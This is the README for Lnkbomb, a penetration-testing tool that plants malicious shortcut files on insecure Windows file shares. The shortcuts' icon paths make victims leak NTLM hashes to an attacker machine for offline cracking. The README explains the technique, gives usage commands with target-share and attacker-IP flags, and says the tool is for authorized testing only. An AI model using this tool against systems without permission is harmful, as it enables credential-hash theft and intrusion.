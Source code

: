 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example.png" />
</p>

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

## Python Usage
Installing Lnkbomb

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)```

```-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)```

Examples of full commands include:

```python3 lnkbomb.py -t \\192.168.1.1\Share -a 192.168.1.2```

```python3 lnkbomb.py -r randomfilegenerated.recover```

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example2.png" />
</p>

## Executable Usage
Download Lnkbomb from the releases link on the right side of the page.  All flags are the same as the Python version, with the exception of using lnkbomb.exe rather than python3 lnkbomb.py.


### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  
